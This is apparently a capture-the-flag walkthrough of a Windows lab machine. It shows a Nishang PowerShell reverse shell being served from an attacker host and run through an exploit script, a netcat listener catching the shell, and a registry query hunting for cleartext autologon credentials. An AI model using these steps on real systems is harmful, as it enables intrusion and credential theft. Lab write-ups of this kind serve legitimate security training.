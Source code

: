 {% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

In order to execute the script, we need to call the function from within it. Modify the script by adding the following line at the end:

> Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 9898

Next, we need to start two listeners, one on port 80 (using python3) and one on port 9898 (using netcat).

Once the listeners are running, we can execute the exploit script, which will download the powershell script, and execute it. We should then receive a connection to our netcat listener.

```
└─$ python exploit2_36025.py
---->{P00F}!
              
```

```
└─$ sudo python3 -m http.server 80                                                   
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.74 - - [14/Jan/2022 12:22:35] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

```

```
└─$ nc -nvlp 9898                                                                                          130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9898
Ncat: Listening on 0.0.0.0:9898
Ncat: Connection from 10.10.10.74.
Ncat: Connection from 10.10.10.74:49158.
Windows PowerShell running as user Alfred on CHATTERBOX
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
chatterbox\alfred
PS C:\Windows\system32> 
```

### Autologon

If the system is using an older versioon of "autologon", the username and password will be stored in the registry in clear text in the following hive:

> HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon

Let's check this hive as follows:

```
PS C:\Windows\system32> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
```